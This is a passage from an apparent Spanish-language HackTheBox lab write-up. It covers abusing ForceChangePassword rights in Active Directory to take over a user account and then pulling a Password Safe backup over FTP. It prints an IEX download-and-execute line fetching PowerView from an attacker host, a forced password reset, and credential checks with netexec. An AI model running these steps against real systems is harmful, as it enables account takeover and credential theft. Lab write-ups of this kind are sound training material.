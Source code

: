 <figure><img src="../../../.gitbook/assets/2526_vmware_ivONU17Bqc.png" alt=""><figcaption></figcaption></figure>

### Abusing ForceChangePassword privileges

Volviendo a revisar el BloodHound en busca de realizar un **lateral movement** o elevar nuestros privilegios, comprobamos que el usuario que disponemos actualmente (michael@administrator.htb) tiene privilegios de **ForceChangePassword** sobre el usuario (benjamin@administrator.htb).&#x20;

Con lo cual, podemos también cambiarle la contraseña al usuario objetivo.

<figure><img src="../../../.gitbook/assets/2525_vmware_ClC7rhkEBy.png" alt=""><figcaption></figcaption></figure>

Realizaremos el mismo proceso desde la terminal que tenemos iniciada sesión la cuenta de (michael@administrator.htb).

Importaremos en memoria el módulo de _PowerView.ps1_ y procederemos a realizar el cambio de la contraseña del usuario objetivo.

{% code overflow="wrap" %}
```powershell
python3 -m http.server 80

IEX (New-Object Net.WebClient).downloadString("http://10.10.14.2/PowerView.ps1")

$UserPassword = ConvertTo-SecureString 'Gzzcoo123' -AsPlainText -Force

Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2527_vmware_RoXROx41BN.png" alt=""><figcaption></figcaption></figure>

### FTP Enumeration

Verificaremos nuevamente las credenciales modificadas del usuario (benjamin@administrator.htb).&#x20;

Además, anteriormente en la enumeración con **nmap** verificamos que se encuentra el puerto 21 (FTP) . Probaremos de acceder con las credenciales de este usuario para acceder al protocolo FTP.

```bash
netexec smb 10.10.11.42 -u 'Benjamin' -p 'Gzzcoo123'

ftp 10.10.11.42

ftp> ls

ftp> get Backup.psafe3
```

<figure><img src="../../../.gitbook/assets/2529_vmware_KGFcPtTaJA.png" alt=""><figcaption></figcaption></figure>

Verificando el archivo descargado de FTP, verificamos que se trata de um archivo de "Password Safe V3 database", que es un gestor de contraseñas similar a KeePass.
